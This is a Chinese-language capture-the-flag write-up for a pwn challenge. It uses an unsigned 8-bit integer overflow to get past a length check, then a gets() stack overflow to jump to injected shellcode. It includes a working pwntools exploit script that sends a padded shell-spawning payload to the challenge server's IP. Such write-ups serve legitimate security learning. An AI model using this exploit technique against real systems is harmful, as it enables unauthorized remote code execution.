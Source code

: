 ```yaml
---
title: 「TSCTF-J_2021」Pwn - Int_Or_Char WriteUp
date: 2021-10-30
tags: ['TSCTF-J_2021', 'Pwn', 'writeup', 'wp']
authors: [nova]
---
```


## 题目

### 初步确定思路

使用`checksec`查看一下文件，发现并没有开启NX和PIE，则初步考虑ret2text和ret2shellcode

![checksec](https://cdn.ova.moe/img/image-20211025175327904.png)

<!--truncate-->

### 分析代码

直接跳到`pwn()`函数开始看吧

```c
int pwn()
{
  char s[50]; // [esp+Dh] [ebp-3Bh] BYREF
  unsigned __int8 v2; // [esp+3Fh] [ebp-9h]

  puts("Plz input ur passwd:");
  puts("Tip: The passwd length needs to be between 4 and 8 characters");
  gets(s);
  v2 = strlen(s);
  return check(v2, s);
}
```

注意到`gets(s)`并没有限定长度，可以考虑在这里栈溢出。

来到`check(v2, s)`函数

```c
char *__cdecl check(int a1, char *src)
{
  if ( (unsigned __int8)a1 <= 3u || (unsigned __int8)a1 > 8u )
  {
    puts("So bad!");
    puts("The passwd length needs to be between 4 and 8 characters");
    exit(0);
  }
  puts("good length!");
  return strcpy(passwd_buf, src);
}
```

这里要求我们的长度`a1 > 3 && a1 <= 8`，如果是这样的话我们很明显无法构造出我们想要的payload, 这里可以参考攻防世界的[Int_Overflow](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=0&id=5058&page=1)的writeups提到的**整数溢出漏洞**

> 一个通俗易懂的C语言例子
>
> 对于一个`2字节的unsigned short int型变量`，当它的数据长度超过2字节时，就会溢出，使用的数据也仅仅是最后两个字节
>
> ```c
> int main()
> {
> unsigned short int var1 = 1, var2 = 257; //var1 = 0x
> if (var1 == var2)
> {
> printf("溢出");
> }
> return 0;
> }
> ```
>
> ```shell
> Out:
> 	溢出
> ```

回到我们这题， 我们的`v2`是一个`unsigned __int8`的变量, 这意味着它的取值范围只有`0~255`那如果我们传入一个长度为*256*的数据，`v2`的值其实就变成了*1*(255 + 1), 这样一来，我们传入的长度可以到`(255+4)~(255+8)`也就是*259-263*个字符。

好的，绕过了字符长度检查，接下来又应该怎么利用这个漏洞呢？

```c
char *strcpy(char *dest, const char *src);
```

这是`strcpy`的原型, 也就是说, `src`的内容会拷贝到`dest`所在的地址上，也就是题目中的`passwd_buf`处

![passwd_buf地址](https://cdn.ova.moe/img/image-20211025194709773.png)

我们来看一下栈堆

![stack of check](https://cdn.ova.moe/img/image-20211025192814285.png)

这里我贴上Mark大爹的讲解：

![性感Mark在线教学](https://cdn.ova.moe/img/image-20211025192651649.png)

> 理解较浅，原因什么的按下不表，等我去把Pwn入门了把栈整明白了再说（）

前面提到，因为NX没开，所以我们的buf是**可执行**的，这也给了我们使用`shellcode`的条件，而且我们并没有调用系统指令的函数存在，因此必须糙一个shellcode出来

```python
from pwn import *

context(os='linux', arch='i386', log_level='debug') # 指定了目标是32位系统, 下文

shellcode = asm(shellcraft.sh()) # 生成shellcode
buf_addr = 0x804A060 # buf地址
# print(shellcode)

payloadd = shellcode.ljust(0x3b, b'A') + b'A'*4 + p32(buf_addr) # 我们先把shellcode左对齐到栈底，再加上4字节的数据干掉rbp, 再加上p32(buf_addr) 即可跳转到buf_addr执行，也就是我们的shellcode
payloadd = payloadd + b'A'*(262-len(payloadd)) # 补齐payload以实现整数溢出漏洞
# print(len(payloadd))
# print(payloadd)
p = remote("45.82.79.42", 11001)

p.recvuntil("characters")
p.sendline(payloadd)
p.interactive()
# 此时已经拿到了shell, 该干什么就不用多说了8

```

> 在本WriteUp编写之前服务器已经shutdown了，所以没有获得shell之后的过程啦

### 个人总结

虽然在做这题的时候虽然整数溢出这个很快就实现了，如何运行shellcode却卡了很久（原因就是到达了栈底之后还要覆盖掉rbp才能跳转，在这之前我完全不理解为什么）

Pwn真是太有意思辣

## 参考资料

[ret2shellcode](https://blog.csdn.net/qq_45691294/article/details/111387593)

Mark大爹
